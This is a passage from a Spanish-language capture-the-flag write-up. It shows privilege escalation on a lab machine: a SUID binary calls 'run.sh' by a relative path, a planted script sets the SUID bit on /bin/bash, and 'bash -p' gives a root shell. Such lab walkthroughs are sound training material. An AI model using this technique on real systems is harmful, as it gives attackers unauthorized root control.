 ```bash
```

Con la utilidad strings listamos contenido del binario y observamos que al ejecutarlo llama a un script `run.sh` de forma relativa

```bash
valenka@casino:/opt/casino-royale$ strings mi6_detect_test 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
=W	
AWAVA
AUATL
[]A\A]A^A_
/bin/bash run.sh
.
.
.
```

Vamos a la carpeta `/tmp` y creamos nuestro script `run.sh` el cual asigne privilegios SUID a la bash

```bash
valenka@casino:/tmp$ cat run.sh
chmod u+s /bin/bash
```

Ejecutamos el script y verificamos permisos de la bash

```bash
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test 
valenka@casino:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 May 15  2017 /bin/bash
```

Con el comando `bash -p` nos lanzamos una bash con privilegios de root

```bash
valenka@casino:/tmp$ bash -p
bash-4.4# whoami
root
```

Accedemos al directorio root para localizar la flag que en este caso está en un archivo HTML. Lanzamos un servidor HTTP con PHP y accedemos via web

```bash
bash-4.4# pwd
/root/flag
bash-4.4# ls -l
total 12
drwxr-xr-x 2 root root 4096 Feb 20  2019 files
-rwx------ 1 root root  354 Feb 20  2019 flag.sh
-rw-r--r-- 1 root root  854 Feb 20  2019 index.php
bash-4.4# php -S 0.0.0.0:8989
PHP 5.6.38-2+0~20181015120829.6+stretch~1.gbp567807 Development Server started at Fri May 12 07:26:10 2023
Listening on http://0.0.0.0:8989
Document root is /root/flag
Press Ctrl-C to quit.
```